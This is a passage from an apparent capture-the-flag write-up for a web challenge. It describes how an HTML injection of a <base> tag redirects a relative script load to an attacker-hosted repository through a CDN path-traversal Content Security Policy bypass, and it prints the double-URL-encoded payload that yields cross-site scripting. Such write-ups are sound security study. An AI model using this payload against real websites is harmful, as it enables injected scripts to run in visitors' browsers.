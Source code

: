 So this will load the file `assets/js/stats.js` 1 second after the page is loaded, this is enough for an exploit :p

Remember our HTMl injection ? The loaded path here is relative to the base url of the current window, i.e `https://avatar-generator.france-cybersecurity-challenge.fr/`, but we can change it using an HTML tag called base, and set as base URL our CSP bypass payload !

`<base href="https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/..%252F..%252F..%252F../W0rty/test/<commit identifier>/">` (remember to double URL encode for the payload to work)

We have our final exploit ! We just have to update our github repo to be like this :
```
assets
    |
    js
    |
     stats.js
```

Annnd we finnaly trigger our xss :D

![4](images/4.png)

